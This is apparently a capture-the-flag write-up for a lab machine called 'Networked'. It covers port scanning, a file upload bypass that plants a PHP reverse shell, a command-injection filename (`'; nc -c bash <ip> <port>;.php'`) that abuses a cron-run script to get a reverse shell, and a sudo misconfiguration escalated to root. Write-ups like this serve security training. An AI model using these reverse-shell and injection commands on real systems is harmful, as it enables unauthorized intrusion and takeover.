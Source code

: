 # Networked

## Network Enumeration

we first scan the machine for open ports we notice a web server on port 80 

![NmapScan](nmap_scan.png)

## Web Fuzzing

we search for subdonmain using ffuf we find a directory called backup , download the backup.tar folder we find the src code for the web application, on the upload.php we find a vector for an arbitrary file upload attack

![upload.php](UploadSrcCode.png)

we then navigate to the upload directory intercept an upload request using Burpsuite and modify it to to pass the whitelisting check , and to upload the reverse shell file [reverseShell](https://github.com/pentestmonkey/php-reverse-shell)

![uploadReq](uploadReq.png)

run netcat on the attacker machine 
```
nc -lvnp 4444
```
when we request the reverse shell we uploaded we will receive our connection .
## Lateral movement

the user we have rce as doesn't have the permission to view user.txt

checking the file named crontab.guly we find that check_attack.php is run every 3 mins and when checking the file one line stands out 
![check_attack](check_attack.png)
the program runs every 3 mins checks for malicious programs and deletes them , however , it run the command without checking for malicious input , we can exploit this by running the following 
```
nc -lvnp 4444 # on attacker machine

cd /var/www/html/uploads
touch -- '; nc -c bash <ip> <port>;.php'
```

we shortly get a shell as guly and we can find the user flag in the home directory 

---
## Privilege Escalation

#### misconfigured sudo 

checking for sudo cabipalities for thus user we found the following
![sudo_misconfig](sudo.png)
we view the file , we have no writing rights and it belongs to root 
![sudofile](sudofile.png)
the program takes what input we add and inputs it into a file then adds EOF after we finish, after a google search i found the following [exploit](https://seclists.org/fulldisclosure/) so to exploit we simply have to add a space then bash
![escalation](escalation.png)
then the program it is written to we get a shell as root where we found the root flag
